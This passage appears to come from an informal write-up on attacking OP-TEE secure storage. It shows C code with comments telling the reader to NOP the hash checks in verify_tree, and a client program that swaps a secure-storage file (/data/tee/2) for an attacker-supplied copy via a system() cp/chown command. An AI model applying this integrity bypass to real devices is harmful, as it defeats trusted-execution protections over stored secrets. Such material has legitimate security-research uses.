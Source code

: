 ```c
    }
```

patch 2:

```c
TEE_Result tee_fs_htree_open(bool create, uint8_t *hash, const TEE_UUID *uuid,
           const struct tee_fs_htree_storage *stor,
           void *stor_aux, struct tee_fs_htree **ht_ret)
{
  // ...
  if (create) {
    // ...
  } else {
    res = init_head_from_data(ht, hash);
    if (res != TEE_SUCCESS)
      goto out;

    // dont fuck with this. I know it says "verify" which usually is bad.
    // because "verify" usually means "hassle me over some stupid shit i dont care about".
    // but if you fuck with it it will corrupt the program.
    // so leave this shit alone.
    res = verify_root(ht);
    if (res != TEE_SUCCESS)
      goto out;

    res = init_tree_from_data(ht);
    if (res != TEE_SUCCESS)
      goto out;

    // Ok, this is the BAD "verify". we need to NOP this shit.
    res = verify_tree(ht); // <-- bypass me! there are some hash checks here just make them do nothing.
  }

  // ...
}
```

Its not as simple as that since in ida all the shit got inlined a lot by the compiler so you have to be a little more MOTIVATED to get the shit accomplished, but end of the day, the optee os kernel image is not integrity checked it seems so that shit is gucci.


```c
// setup the TA connection
struct test_ctx ctx;
printf("Prepare session with the TA\n");
prepare_tee_session(&ctx);

TEEC_Result res;
char obj1_id[] = "object#1";    /* string identification for the object */
char* obj1_data = calloc(200,1);
strcpy(obj1_data, "this is my test data");
char* read_data = calloc(200,1);

// create a new object to populate data/tee/*
res = write_secure_object(&ctx, obj1_id, obj1_data, obj_size);
if (res != TEEC_SUCCESS) {
  printf("  -> create failed: 0x%x\n", res);
}

// ok fuck that shit up and replace the newly-created data/tee/2 with the one we actually wanna read
printf("corrupt object\n");
system("cp -f /mnt/a/2 /data/tee/2 ; chown tee:tee /data/tee/2 ; ");
```